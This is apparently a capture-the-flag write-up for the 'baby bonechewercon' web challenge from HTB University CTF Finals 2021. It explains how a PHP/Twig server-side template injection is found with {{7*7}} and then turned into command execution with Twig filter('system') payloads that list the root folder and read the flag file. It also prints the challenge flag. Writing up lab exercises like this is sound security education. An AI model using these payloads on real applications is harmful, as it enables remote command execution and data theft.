 # baby bonechewercon (Web)

![date](https://img.shields.io/badge/date-05%2F03%2F2021-brightgreen)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)  
![blockchain category](https://img.shields.io/badge/difficulty-medium-yellow)
![hard dificulty](https://img.shields.io/badge/category-web-blue)

## Flag
``
HTB{b3nt_tw1g_t0_my_will!}
``

## Solution

Starting with reading the description of the challenge it notified us about SSTI feng shui, so it's probably a server side template injection vulnerability

![challinfo](https://github.com/z3r0Luck/CTF-Writeups/blob/master/HTB-UNI%20CTF%20Finals%202021/web_baby_bonechewercon/1.png.png "Challenge Info")

Looking at the files we see PHP is used with Twig, which is a is a template engine for PHP. The web page provide us a form to register a name. Registering a name we get a greeting response with the value we passed to it.

![web1](https://github.com/z3r0Luck/CTF-Writeups/blob/master/HTB-UNI%20CTF%20Finals%202021/web_baby_bonechewercon/2.png "web1")

So we start exploiting this vulnerability with a very simple payload, {{7*7}}, to check if it's going to evaluate so we have the following:
```
http://docker.hackthebox.eu:31119/?name={{7*7}}
```
And we get back 49! So it's vulnerable to SSTI.
![web2](https://github.com/z3r0Luck/CTF-Writeups/blob/master/HTB-UNI%20CTF%20Finals%202021/web_baby_bonechewercon/3.png "web2")

Now we can get remote code execution and list the root folder with the following payload:

```
{{['ls /']|filter('system')}}
```

![web5](https://github.com/z3r0Luck/CTF-Writeups/blob/master/HTB-UNI%20CTF%20Finals%202021/web_baby_bonechewercon/5.png "web5")

We see the flag file there so we just need to read it:
```
{{['cat /flag']|filter('system')}}
```
![web6](https://github.com/z3r0Luck/CTF-Writeups/blob/master/HTB-UNI%20CTF%20Finals%202021/web_baby_bonechewercon/6.png "web6")
